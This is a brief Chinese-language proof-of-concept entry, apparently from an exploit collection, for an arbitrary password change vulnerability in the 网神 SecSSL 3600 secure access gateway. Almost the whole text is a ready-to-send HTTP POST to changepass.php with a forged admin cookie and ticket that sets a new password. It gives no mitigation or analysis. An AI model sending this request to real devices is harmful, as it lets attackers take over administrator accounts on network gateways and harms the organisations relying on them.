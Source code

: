 ## 网神 SecSSL 3600安全接入网关系统 任意密码修改漏洞 

**POC**

```
POST /changepass.php?type=2 
Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}old_pass=&password=Test123!@&repassword=Test123!@
```